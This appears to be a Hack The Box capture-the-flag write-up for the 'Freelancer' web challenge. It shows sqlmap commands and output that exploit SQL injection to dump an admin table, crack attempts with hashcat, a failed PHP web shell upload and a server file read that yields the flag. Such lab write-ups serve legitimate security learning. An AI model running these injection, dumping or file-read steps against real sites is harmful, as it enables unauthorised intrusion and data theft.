+++
title = "Freelancer"
date = 2020-06-12
[taxonomies]
tags = ["hackthebox"]
+++

1.	The challenge: "Can you test how secure my website is? Prove me wrong and capture the flag!" The URL leads to a web page made by a freelancer.

2.	First thing I usually do is inspect the website by clicking around and see what it does, inspect the text, links, and source code for hints. I stumbled upon a contact form that might be of interest. I tried sending some dud info and see what I can find in `burpsuite`.
 
	

	
	
	Upon inspection of the source code, I noticed there was a comment in the code about the contact form. I tested further in `burpsuite` to see what I can find but nothing interesting was found.
	
	I dug around the source code again and see what else I could find and I stumbled upon this piece of code.

	

	
	
	Looks like a possible SQL injection. I tested all the parameters to double check to see if it's really stored in a database. Parameter ID=4 will show up blank which means the parameter is fetching data stored from a database.

	

3.	Time to test for SQL injection using `sqlmap`
 
	```
	sqlmap -u http://docker.hackthebox.eu:31529/portfolio.php?id=1
	```

	

	Tada. SQL injection vulnerability is found. Time to enumerate the database. Let's see what tables are stored in the database.

	```
	sqlmap -u http://docker.hackthebox.eu:31529/portfolio.php?id=1 --tables
	```

	

	There is a table named `safeadmin`, let's take a look what is inside.
	
	```
	sqlmap -u http://docker.hackthebox.eu:31529/portfolio.php?id=1 -T safeadmin --dump
	```

	

	
	
	Looks like a `bcrypt` hash, this doesn't look too good in terms of brute forcing for a password since it will take a lot of time and resources due to the nature of `bcrypt` encryption. I'll try it anyway for the sake of example.

	```
	sudo hashcat -a 0 -m 3200 bcrypt.txt /usr/share/wordlists/rockyou.txt --force
	```

	

4.	Seeing that this is `bcrypt` hash is unbreakable. Time to go back to enumerate the website since I haven't done it yet. If it made you wonder why I didn't do this at the beginning, I usually roam through the website and source code for hidden links or comments that may give clues.

	
	
	`/administrat` directory has been found. Upon navigating to the URL, it appears to be a login page. I tried using SQL injection administrator bypass techniques but wasn't successful. 

	

	Let's see what files I can find inside `/administrat`.
	
	
	
	`/administrat/panel.php` was found. Upon navigating to the URL, it redirects my connection to `/administrat/index.php`. Strange.

5.	After taking a look around once again and figuring out my next steps, I decided to take a look at what database privileges I have using SQL injection. 

	```
	sqlmap -u http://docker.hackthebox.eu:31689/portfolio.php?id=1 --privileges
	```

	```
	[21:07:06] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	[21:07:06] [INFO] fetching database users privileges
	database management system users privileges:
	[*] 'db_user'@'%' (administrator) [28]:
	   privilege: ALTER
	   privilege: ALTER ROUTINE
	   privilege: CREATE
	   privilege: CREATE ROUTINE
	   privilege: CREATE TABLESPACE
	   privilege: CREATE TEMPORARY TABLES
	   privilege: CREATE USER
	   privilege: CREATE VIEW
	   privilege: DELETE
	   privilege: DROP
	   privilege: EVENT
	   privilege: EXECUTE
	   privilege: FILE
	   privilege: INDEX
	   privilege: INSERT
	   privilege: LOCK TABLES
	   privilege: PROCESS
	   privilege: REFERENCES
	   privilege: RELOAD
	   privilege: REPLICATION CLIENT
	   privilege: REPLICATION SLAVE
	   privilege: SELECT
	   privilege: SHOW DATABASES
	   privilege: SHOW VIEW
	   privilege: SHUTDOWN
	   privilege: SUPER
	   privilege: TRIGGER
	   privilege: UPDATE
	[*] 'root'@'localhost' (administrator) [28]:
	   privilege: ALTER
	   privilege: ALTER ROUTINE
	   privilege: CREATE
	   privilege: CREATE ROUTINE
	   privilege: CREATE TABLESPACE
	   privilege: CREATE TEMPORARY TABLES
	   privilege: CREATE USER
	   privilege: CREATE VIEW
	   privilege: DELETE
	   privilege: DROP
	   privilege: EVENT
	   privilege: EXECUTE
	   privilege: FILE
	   privilege: INDEX
	   privilege: INSERT
	   privilege: LOCK TABLES
	   privilege: PROCESS
	   privilege: REFERENCES
	   privilege: RELOAD
	   privilege: REPLICATION CLIENT
	   privilege: REPLICATION SLAVE
	   privilege: SELECT
	   privilege: SHOW DATABASES
	   privilege: SHOW VIEW
	   privilege: SHUTDOWN
	   privilege: SUPER
	   privilege: TRIGGER
	   privilege: UPDATE
	```
	
	What is my current user?
	
	```
	sqlmap -u http://docker.hackthebox.eu:31689/portfolio.php?id=1 --current-user
	```
	
	
	
	Okay, so I know now that I have privileges to `FILE` which means I can read and maybe write files as `db_user`.

6.	The next idea I had was uploading a php web shell using `sqlmap` and see if I can execute basic OS commands.
	
	```
	[22:02:04] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	[22:02:04] [INFO] fingerprinting the back-end DBMS operating system
	[22:02:04] [INFO] the back-end DBMS operating system is Linux
	[22:02:04] [WARNING] expect junk characters inside the file as a leftover from UNION query
	do you want confirmation that the local file 'Simple-PHP-Web-Shell/shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html')? [Y/n] 
	[22:02:05] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
	```
	
	Looks like my write permissions is not working or I don't have enough privileges. 

7.	Not sure what I needed to do here, I decided to see what kind of files I can read on the system itself. Since `panel.php` was acting a bit strange with the redirection, I wonder if there was hidden code inside the php file.

	```
	sqlmap -u http://docker.hackthebox.eu:31689/portfolio.php?id=1 --file-read /var/www/html/administrat/panel.php
	```
	
	```
	---
	[22:05:55] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	[22:05:55] [INFO] fingerprinting the back-end DBMS operating system
	[22:05:55] [INFO] the back-end DBMS operating system is Linux
	[22:05:55] [INFO] fetching file: '/var/www/html/administrat/panel.php'
	do you want confirmation that the remote file '/var/www/html/administrat/panel.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] 
	[22:05:57] [INFO] the local file '/home/jtuyen/.sqlmap/output/docker.hackthebox.eu/files/_var_www_html_administrat_panel.php' and the remote file '/var/www/html/administrat/panel.php' have the same size (880 B)                                                                                                                      
	files saved to [1]:
	[*] /home/jtuyen/.sqlmap/output/docker.hackthebox.eu/files/_var_www_html_administrat_panel.php (same file)
	```
	
	I didn't expect this to happen but the `panel.php` code contains the flag.
	
	